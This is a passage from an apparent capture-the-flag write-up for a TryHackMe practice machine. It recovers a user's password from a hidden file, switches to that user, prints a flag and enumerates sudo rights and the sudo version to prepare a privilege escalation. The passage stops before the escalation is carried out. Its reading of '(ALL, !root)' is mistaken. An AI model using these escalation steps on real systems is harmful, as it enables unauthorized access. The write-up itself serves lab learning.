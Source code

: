 
`cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!`


we are returned with:
```bash
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root

```


so now we know Gwendoline's password is `MniVCQVhQHUNI`

`su gwendoline`
paste password

we can now cat out the user.txt
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}

---
Now we need the root flag, for this we will probably need to escalate privileges.

sudo -l
This command, when used with `sudo`, lists the commands you are allowed to run with elevated privileges.

```bash
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt

```

**We see (All, !root) meaning root can't use sudo but sudo can be used by anyone else**

`sudo --version`

```bash
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3
```


to check for root privs:
`whoami`: 

- Simply type `whoami` in the terminal.
- If the output is `root`, you are the root user.
